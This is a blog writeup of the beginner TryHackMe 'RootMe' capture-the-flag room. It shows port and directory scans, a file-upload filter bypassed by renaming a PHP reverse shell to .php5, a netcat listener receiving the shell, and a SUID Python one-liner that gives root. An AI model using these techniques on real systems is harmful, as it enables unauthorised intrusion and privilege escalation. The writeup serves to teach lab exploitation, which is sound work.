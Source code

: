 ```yaml
---
title: RootMe Writeup | TryHackMe
date: 2022-01-26 00:00:00 +/-TTTT
categories: [Writeup, TryHackMe]
tags: [writeup, tryhackme, security, web, linux, privesc]
author:
  name: v3r4x
---
```


## Overview

This is my writeup for the RootMe CTF.  This is a free room of easy difficulty which tests your knowledge of privilege escalation.

## How to Access

I completed this room on TryHackMe.  The link to the room is shown below:

- https://tryhackme.com/room/rrootme

## Steps

#### Reconnaissance

Starting off with an `nmap` scan, I found two open ports: 22 (ssh) and 80 (http) which is running an Apache (v2.4.29) web server:

```
$ sudo nmap -sC -sV -oN initial 10.10.111.70
[sudo] password for v3r4x: 
Sorry, try again.
[sudo] password for v3r4x: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-13 00:27 BST
Nmap scan report for 10.10.111.70
Host is up (0.083s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.91 seconds
```

I then navigated to the website to manually crawl it while `gobuster` ran in the background.  

![homepage](/assets/posts/20220126/1_homepage.png)

`gobuster` indicated a hidden `/panel` directory which contains an file upload.

```
$ gobuster dir -u http://10.10.55.244/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.55.244/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/04/13 11:57:47 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.55.244/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.55.244/css/]    
/js                   (Status: 301) [Size: 309] [--> http://10.10.55.244/js/]     
/panel                (Status: 301) [Size: 312] [--> http://10.10.55.244/panel/]
```

![file upload](/assets/posts/20220126/2_file_upload.png)

#### Getting a Shell

I attempted to upload a PHP reverse shell that I downloaded from !(here)[http://pentestmonkey.net/tools/web-shells/php-reverse-shell].  I then changed the `$ip` variable to the IP address of my machine and the `$port` variable to `4444`.  However, it appears that the website does not allow `.php` files from being uploaded.  

![upload unsuccessful](/assets/posts/20220126/3_upload_unsuccessful.png)

After some head scratching and playing around with various file extensions, I realised that there are two PHP file extensions: `.php` and `.php5`.  I changed the shell's extension to the latter and the upload was successful:

![upload successful](/assets/posts/20220126/4_upload_successful.png)

I then started a `netcat` session which listens on port 4444, and navigated to the reverse shell I just uploaded using the `/uploads` directory, giving me access to the machine.

```
$ nc -nvlp 4444                                                                 
listening on [any] 4444 ...
connect to [10.9.150.161] from (UNKNOWN) [10.10.55.244] 44316
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 11:09:40 up 14 min,  0 users,  load average: 0.00, 0.37, 0.61
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.4$ 
```

I used the `find` command in order to find the `user.txt` file:

```
bash-4.4$ find / type f -name user.txt 2> /dev/null
/var/www/user.txt
```

- `-type f`: looking exclusively for files.
- `-name user.txt`: looking for a file with the name "user.txt".
- `2> /dev/null`: error messages are not shown when the command executes.

Looking at the contents of `user.txt` gives the first flag:

```
bash-4.4$ cat /var/www/user.txt
THM{y*************l}
```

#### Privilege Escalation

The instructions state that there is an odd file when searching for SUID permissions.

```
bash-4.4$ find / -user root -perm /4000 2>/dev/null
find / -user root -perm /4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

Using the command from the hint, I found that Python has been granted SUID permissions, so I used that to escalate my privileges.  This can be done numerous ways.  In this case, I used the following command:

```
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
cat /root/root.txt
THM{p******************n}
```

And that's it!

## Summary and Feedback

Overall, this is a very easy room.  If you are a beginner and want to learn a bit of privilege escalation, this is ideal for you!
